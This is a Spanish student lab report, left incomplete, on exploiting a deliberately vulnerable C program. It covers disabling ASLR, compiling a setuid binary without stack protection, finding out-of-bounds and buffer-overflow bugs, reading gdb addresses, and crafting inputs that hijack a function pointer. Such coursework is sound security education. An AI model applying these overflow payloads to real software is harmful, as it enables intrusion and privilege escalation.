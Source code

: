 ```yaml
---
title: Vulnerabilidades software de bajo nivel
author_1: "Héctor Toral Pallás (798095)"
author_2: "Darío Marcos Casalé (795306)"
---
```


# Vulnerabilidades software de bajo nivel

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

Se ha desarrollado un script para compilar el ejecutable sin la protección con canarios de pila:

```bash
#!/bin/bash

gcc -m32 -fno-stack-protector -z execstack -ggdb cifrado.c -o cifrado
sudo chown root cifrado
sudo chmod 4755 cifrado
```

### Pregunta 1. 
Si, por ejemplo, se introduce el valor 666 cuando el programa pide elegir
una opci´on del men´u (1-4) se verifica un fallo de segmento. Hay una vulnerabilidad
asociada a una variable que puede ser indexada fuera de su límite.

#### Cuál es la variable?
La variable que genera el código vulnerable es: `opt`.
Al esta estar definida como un array de `[0 - COMM_SIZE-1]` si se introduce un valor mayor que `COMM_SIZE` se genera un fallo de segmento.

// Si s >= COMM_SIZE entonces accede fuea 
#### Indica la línea de código que puede indexar la variable fuera de su límite.
```c
func_ptr opt[COMM_SIZE] = {NULL, escribirPalabra, cifrar, verPalabras,
                             terminar};
//...

// La entrada es generada por el usuario
scanf("%s", resp);
resp[strlen(resp)] = '\0';
int s = atoi(resp);

// Si s >= COMM_SIZE entonces accede fuea 
terminado = opt[s](); 	// <--- código vulnerable
```

###  Pregunta 2. Hay vulnerabilidades de desbordamiento de búfer en el programa.
#### ¿Cuáles son las variables?
`resp`, `texto`, `palabra`, `offset`

#### ¿Qué parte de la memoria (e.g., código, data segment, bss, pila, heap, ...) asociada al proceso se puede desbordar?
`resp`, `texto`, `palabra`, `offset` se encuentran en el stack/pila.

#### Indica las líneas de código que pueden desbordar los búferes.

Línea 112
```c
int main() {
    ...
    scanf("%s", resp);
    ...
}
```

```c
int escribirPalabra() {
    ...
    scanf("%s", palabra);
    ...
    scanf("%u", &offset);
    ...
}
```

Se ha observado que se puede desbordar el buffer si el tamaño 
```c
int verPalabras() {
  for (struct palabraCifrada *p = lista; p != NULL; p = p->next) {
    char texto[MAX_SIZE] = "";
    strcat(texto, p->palabra);
    strcat(texto, "\t");
    strcat(texto, p->cifrado);
  }

  return 0;
}
```

### Pregunta 3. 
#### ¿Hay otras vulnerabilidades en el código? ¿Cuáles (indica las líneas de código correspondientes)?

```c
int main() {
  func_ptr extra[2] = {NULL, mostrarSecreto1};
  ...
  int s = atoi(resp);
  terminado = opt[s]();
  ...
}
```

### Pregunta 4. 
#### ¿Cuál es la dirección de las variables opt y extra? >En qué parte de la memoria se encuentran?

```
(gdb) p &opt
$2 = (func_ptr (*)[5]) 0xffffd184
(gdb) p &extra
$3 = (func_ptr (*)[2]) 0xffffd17c
```

### Pregunta 5.
#### ¿Qué datos de entrada proporcionas al programa para que opt[s] lea (y luego intente ejecutar) la dirección de la función mostrarSecreto1 guardada en extra, en lugar de una función guardada en opt?

```c
opt = {0x0, 0x56556333 <escribirPalabra>, 0x56556440 <cifrar>, 
  0x565564f6 <verPalabras>, 0x5655661a <terminar>}
extra = {0x0, 0x56556300 <mostrarSecreto1>}
```

```
Hola! Menú:
 1. Escribir palabra
 2. Cifrar
 3. Ver palabras
 4. Terminar
-1
Bien! Primer logro conseguido
```
### Pregunta 6.
#### ¿Cuál es la dirección del búfer asociado a la variable resp? ¿Y la dirección de la función mostrarSecreto2?

```
(gdb) p &resp
$8 = (char (*)[64]) 0xffffd13c

(gdb) p &mostrarSecreto2
$9 = (int (*)()) 0x565562cd <mostrarSecreto2>
```

resp[0..7] = {...}
resp[8:12] = 0x565562cd

opt[s] = 0x565562cd
s = -16

-16aaaaa\xCD\x62\x55\x56

### Pregunta 7.
#### ¿Qué datos de entrada proporcionas al programa para que opt[s] lea (y luego intente ejecutar) a partir de resp[8]?

## Conclusiones

## Referencias 
